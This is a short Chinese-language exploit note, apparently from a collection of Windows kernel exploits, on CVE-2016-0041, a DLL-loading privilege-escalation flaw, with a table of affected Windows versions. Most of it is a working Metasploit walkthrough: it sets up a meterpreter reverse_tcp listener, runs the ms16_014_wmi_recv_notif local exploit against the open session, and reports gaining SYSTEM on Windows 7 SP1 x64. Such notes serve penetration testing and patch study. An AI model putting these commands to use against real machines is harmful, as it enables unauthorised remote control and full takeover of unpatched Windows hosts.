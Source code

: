 ### CVE-2016-0041

#### 描述

错误处理了DLL加载，从而允许本地加载获得特权。

#### 影响版本

| Product             | CPU Architecture | Version | Update | Tested                   |
| ------------------- | ---------------- | ------- | ------ | ------------------------ |
| Windows 10          |                  |         |        |                          |
| Windows 10          |                  | 1511    |        |                          |
| Windows 7           |                  |         | SP1    | &#10004;       |
| Windows 8.1         |                  |         |        |                          |
| Windows Rt 8.1      |                  |         |        |                          |
| Windows Server 2008 |                  |         | SP2    | &#10008; |
| Windows Server 2008 |                  | R2      | SP1    | &#10008; |
| Windows Server 2012 |                  |         |        | &#10008; |
| Windows Server 2012 |                  | R2      |        | &#10008; |
| Windows Vista       |                  |         | SP2    |                          |

#### 利用方式

测试了网上能够找到的c++代码版本，Windows 7 x86/x64都会蓝屏，Windows Server 2008/2012所有版本都没反应，所有这边只能使用MSF版本。MSF版本中只有`payload/windows/x64/meterpreter/reverse_tcp`版本的反弹shell能够利用，`payload/windows/meterpreter/reverse_tcp`版本利用失败

测试系统Windows 7 SP1 x64，首先进行监听

```bash
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.1.9
set lport 12345
run
```

可以看到如下的反弹shell

![CVE-2016-0041_win7_sp1_x64_01](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2016-0041_win7_sp1_x64_01.png?raw=true)

接着使用提权漏洞

```bash
use exploit/windows/local/ms16_014_wmi_recv_notif
set session 2#你当前的session
run
```

![CVE-2016-0041_win7_sp1_x64_02](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2016-0041_win7_sp1_x64_02.png?raw=true)

可以看到我们最后成为了SYSTEM权限